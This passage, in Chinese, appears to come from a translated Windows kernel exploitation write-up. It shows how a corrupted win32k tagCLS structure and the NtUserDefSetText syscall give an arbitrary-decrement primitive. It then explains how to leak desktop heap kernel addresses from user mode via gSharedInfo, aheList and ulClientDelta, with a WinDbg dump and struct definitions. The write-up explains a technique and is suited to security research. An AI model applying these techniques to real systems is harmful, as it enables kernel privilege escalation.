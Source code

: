 利用 NtUserDefSetText 系统调用，我们可以绕过单字零的限制。
现在我们能够分配包含单字零的任意桌面堆块。这意味着此时我们已经可以自减任意地址了。

```
eax=cafebaba ebx=ffa19708 ecx=ff910000 edx=fe6966e0 esi=fe6966e0 edi=cafebaba
eip=982fdcc1 esp=9b3b7adc ebp=9b3b7adc iopl=0                    nv up ei ng nz na po nc
cs=0008 ss=0010 ds=0023 es=0023             fs=0030    gs=0000                 efl=00010282
win32k!HMUnlockObject+0x8:
982fdcc1 ff4804                dec       dword ptr [eax+4]       ds:0023:cafebabe=????????
```
## 4.2. 泄漏桌面堆的信息

现在，我将介绍一些用于从用户模式读取桌面堆的结构。需要注意的是所有的用户对象都被索引到了一张每会话的句柄表中，该表位于 win32k!gpvSharedBase【3】，并且该区被映射到了每一个 GUI 进程（用户模式）。这对漏洞利用程序开发者来说是一个天大的好消息，因此我们可以从用户模式读取桌面堆的任意内容。这个特性可以看作是一个强有力的信息泄漏。
因为我们可以从用户模式映射的桌面堆获取任意桌面堆对象的内容，所以我们可以备份被篡改的 tagCLS 结构并用它来恰当地从存在漏洞的代码路径退出。更具体地讲，在将其替换为利用 NtUserDefSetText 系统调用篡改过的 tagCLS 之前，我们使用桌面堆泄漏来复制一份 tagCLS。在我们拿到一份有效的 tagCLS 对象的复本后，我们修改位于偏移 0x58 处的指针，该指针在后面将会用来实现任意自减。
读取用户模式映射的桌面堆的过程已经在 Tarjei 的论文【3】与 Aaron 的论文【4】中阐述。简单讲，我们能用 NtCurrentTeb() 来定位 Win32ClientInfo 结构：

```c
typedef struct _CLIENTINFO
{
         ULONG_PTR CI_flags;
         ULONG_PTR cSpins;
         DWORD dwExpWinVer;
         DWORD dwCompatFlags;
         DWORD dwCompatFlags2;
         DWORD dwTIFlags;
         PDESKTOPINFO pDeskInfo;
         ULONG_PTR ulClientDelta;
         // incomplete. see reactos
} CLIENTINFO, *PCLIENTINFO;
```
ulClientDelta 成员可以用来计算桌面堆对象的用户模式地址。这是桌面堆用户模式映射与内核映射的偏移。

接着，看看 win32k!tagSHAREDINFO 结构，该结构由 user32!gSharedInfo（用户模式）与 win32k!gSharedInfo（内核模式）指向：

```
kd> ?user32!gSharedInfo
Evaluate expression: 1981453376 = 761a9440
kd> dt win32k!tagSHAREDINFO 761a9440
    +0x000 psi                    : 0x003b0578 tagSERVERINFO
    +0x004 aheList                : 0x002f0000 _HANDLEENTRY
    +0x008 HeEntrySize            : 0xc
    +0x00c pDispInfo              : 0x003b1728 tagDISPLAYINFO
    +0x010 ulSharedDelta          : 0xff620000
    +0x014 awmControl             : [31] _WNDMSG
    +0x10c DefWindowMsgs          : _WNDMSG
    +0x114 DefWindowSpecMsgs : _WNDMSG
kd> ?win32k!gSharedInfo
Evaluate expression: -1740320288 = 9844d1e0
kd> dt win32k!tagSHAREDINFO 9844d1e0
    +0x000 psi                    : 0xff9d0578 tagSERVERINFO
    +0x004 aheList                : 0xff910000 _HANDLEENTRY
    +0x008 HeEntrySize            : 0xc
    +0x00c pDispInfo              : 0xff9d1728 tagDISPLAYINFO
    +0x010 ulSharedDelta          : 0
    +0x014 awmControl             : [31] _WNDMSG
    +0x10c DefWindowMsgs          : _WNDMSG
    +0x114 DefWindowSpecMsgs : _WNDMSG
```
aheList 成员指向一个 win32k!_HANDLEENTRY 数组，该数组包含指向对应句柄实际内核模式地址的指针。因为窗口句柄的低 16 比特实际上是 aheList 数组的索引，所以我们可以获取任意窗口桌面堆对象的内核内存指针。因此，我们可以计算内核对象映射的用户模式内存。这可以通过从内核指针减去 ulClientDelat 计算出。
